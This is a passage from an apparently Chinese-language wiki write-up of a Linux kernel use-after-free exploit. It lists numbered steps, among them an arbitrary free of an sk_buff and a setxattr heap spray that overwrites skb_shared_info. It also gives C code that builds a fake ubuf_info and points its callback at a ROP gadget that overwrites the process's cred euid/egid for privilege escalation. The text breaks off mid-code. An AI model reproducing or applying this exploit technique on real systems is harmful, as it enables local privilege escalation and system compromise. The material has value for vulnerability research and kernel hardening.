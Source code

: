 </div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
9.對sk_buff內核地址進行任意釋放

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
10.調用pthread_barrier_wait()，執行32個setxattr()覆蓋skb_shared_info的堆噴pthreads

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
11.使用recv()接收服務器套接字的網絡消息。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
通過skb_shared_info 進行任意寫
--------------------------------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
以下是覆蓋sk_buff對象的有效payload：

</div>
    #define SKB_SIZE        4096
    #define SKB_SHINFO_OFFSET    3776
    #define MY_UINFO_OFFSET        256
    #define SKBTX_DEV_ZEROCOPY    (1 << 3)
    void prepare_xattr_vs_skb_spray(void)
    {
        struct skb_shared_info *info = NULL;

        xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

        /* Don't touch the second part to avoid breaking page fault delivery */
        memset(spray_data, 0x0, PAGE_SIZE * 4);

        info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
        info->tx_flags = SKBTX_DEV_ZEROCOPY;
        info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

        uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);

<div lang="chinese" dir="ltr" class="mw-content-ltr">
skb_shared_info駐留在噴射數據中，正好在偏移量SKB_SHINFO_OFFSET處，即3776字節。 skb_shared_info.destructor_arg指針存儲了struct ubuf_info的地址。因為被攻擊的sk_buff的內核地址是已知的，所以能在網絡緩衝區的MY_UINFO_OFFSET處創建了一個假的ubuf_info。下面是有效payload的佈局：

</div>
![](T0185ccbf9f025c74da.png "T0185ccbf9f025c74da.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
下面講講destructor_arg 回調:

</div>
     /*
         * A single ROP gadget for arbitrary write:
         *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
         * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
         */
        uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
        uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
        uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */
